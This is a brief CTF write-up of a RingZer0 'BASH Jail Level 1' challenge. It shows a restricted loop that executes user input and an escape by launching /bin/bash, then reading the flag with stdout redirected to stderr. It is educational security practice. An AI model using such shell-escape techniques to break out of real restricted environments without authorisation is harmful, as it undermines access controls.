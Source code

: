 # **Jail 1**

![](https://i.imgur.com/hBRN91L.png)

```
ubuntu@ubuntu-virtual-machine:~$ ssh level1@challenges.ringzer0team.com -p 10218 
The authenticity of host '[challenges.ringzer0team.com]:10218 ([78.109.87.50]:10218)' can't be established.
ECDSA key fingerprint is SHA256:gJjkCupg596odLvqiT3qRhgElHttbotOA6m3sn3BDEY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[challenges.ringzer0team.com]:10218,[78.109.87.50]:10218' (ECDSA) to the list of known hosts.
level1@challenges.ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
	echo "Your input:"
	read input
	output=`$input`
done 

-----------------------------
Your input:
```

```
Your input:
ls
Your input:
cat flag.txt
Your input:
```

No feedback(still in process), let's execute bash to try to get some feedback.

```
Your input:
/bin/bash
level1@lxc17-bash-jail:~$ 
```

We now get rid of process, let's use bash to cat the flag.

```
level1@lxc17-bash-jail:~$ ls 1>&2
flag.txt  prompt.sh
level1@lxc17-bash-jail:~$ cat flag.txt 1>&2
FLAG-XXXXXX
```

`1>&2` means redirect stdout to stderr, it outputs the message to stderr.

